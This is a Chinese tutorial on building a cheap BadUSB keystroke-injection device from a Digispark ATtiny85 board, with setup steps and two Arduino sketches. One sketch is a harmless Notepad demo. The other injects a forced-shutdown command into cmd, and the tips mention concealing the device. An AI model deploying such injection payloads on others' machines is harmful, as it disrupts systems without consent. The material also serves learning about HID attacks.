

# HID-Digispark

<p align="center">
    
</p>

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**文章/教程**
- [digispark:tutorials:connecting [Digistump Wiki]](http://digistump.com/wiki/digispark/tutorials/connecting)
- [使用Digispark和Duck2Spark打造一个廉价USB橡皮鸭](https://www.freebuf.com/articles/system/185293.html)
- [7块钱的BadUSB](https://mp.weixin.qq.com/s/mIcRNcf5HmZ4axe8N92S7Q)
- [Attiny85微型 USB接口开发板 Digispark kickstarter扩展板](https://detail.tmall.com/item.htm?id=543191001622)
- [Digispark(ATTINY85) 微型开发板驱动安装与开发环境配置教程](http://www.cnblogs.com/Mayfly-nymph/p/9293806.html)
- [如何给Digspark ATTINY85下载程序](https://blog.csdn.net/terminaterfxy/article/details/79623152)
- [Linux Conflict w/ Digistump DigiKeyboard.h include](https://forum.arduino.cc/index.php?topic=565616.msg3853561)
- [BadUSB的制作（Digispark篇）](https://mp.weixin.qq.com/s/A8KaMP-AJsuZSyyR6Zs1UA)

**资源**
- [DigiKeyboard_DE/DigiKeyboard.h](https://github.com/BesoBerlin/DigiKeyboard_DE/blob/master/DigiKeyboard.h) - keyboard 库文件
- [PlatyPew/Digispark-Duckduino](https://github.com/PlatyPew/Digispark-Duckduino) - payload
- [mame82/duck2spark](https://github.com/mame82/duck2spark) - payload 翻译脚本
- [toxydose/Duckyspark](https://github.com/toxydose/Duckyspark) - payload 翻译脚本
- [thewhiteh4t/flashsploit](https://github.com/thewhiteh4t/flashsploit) - 基于 ATtiny85 的 HID 攻击的开发框架

---

# 简介

Digispark 是一个基于 ATTINY85 微控制器的 USB 开发板，体积小且价钱便宜，功能方面则没有 Arduino 般强大。代码与 Arduino 大同小异，更可贵的是使用 Arduino IDE 来开发。

淘宝上直接搜索 Digispark 就能看到了，价格在7元左右。


---

# 配置环境

先安装 Arduino IDE

从官网按照自己的操作系统下载并安装 https://www.arduino.cc/en/main/software

> 我使用的是 1.8.5 版本,正常使用，但其他部分版本有BUG

安装完成后，打开 Arduino IDE 应用程序，依次选择 File -> Preferences ，并在字段名为“Additional Boards Manager URL”的输入框中，输入以下 URL。
```
http://digistump.com/package_digistump_index.json
```

> 注:如果速度慢可以配置代理


安装 Digispark 的驱动(32位操作系统和64位操作系统安装程序不同)

https://github.com/digistump/DigistumpArduino/releases/download/1.6.7/Digistump.Drivers.zip

运行 Install Drivers.exe

进入“工具”菜单，然后选择“开发板”子菜单 - 选择“开发板管理器”



然后从类型下拉菜单中选择“贡献”， 选择“Digistump AVR Boards”包，然后单击“安装”按钮


> 注:再次强调,如果速度慢可以配置代理

最后，打开 Tools -> Board，然后选择 Digispark (Default—16.5mhz)并将其设置为默认值。


---

# 使用

用无害的 payload 演示
```c
#include "DigiKeyboard.h"

void setup() {
DigiKeyboard.delay(1500);
DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT);//win+r
delay(200);
DigiKeyboard.println("NOTEPAD");
DigiKeyboard.println();
delay(500);
DigiKeyboard.sendKeyStroke(KEY_SPACE,MOD_CONTROL_LEFT);
delay(200);
DigiKeyboard.print("just test");
DigiKeyboard.println();
}


void loop() {
}
```

将上面的代码复制到软件中,点击左上角 "验证" 按钮,等待编译完成,检测代码是否有误.当然你可以跳过这一步直接点击上传 :)


> 注意：在调用上传之前，不需要插入 Digispark

点击上传按钮。底部状态框现在会要求插入 Digispark - 插入它 - 或者拔下并重新插入它。


enjoy :)

**关机**
```c
#include "DigiKeyboard.h"

void setup() {

  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);//win+r
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cmd");
  DigiKeyboard.delay(500);
  DigiKeyboard.println("shutdown -f -s -t 10");
}

void loop() {

}
```

---

# Tips

- 可以使用一些热缩管来为你的 Digispark-Ducky 提供电绝缘，机械保护，密封及隐藏。
- 键盘映射见 DigiKeyboard.h 文件
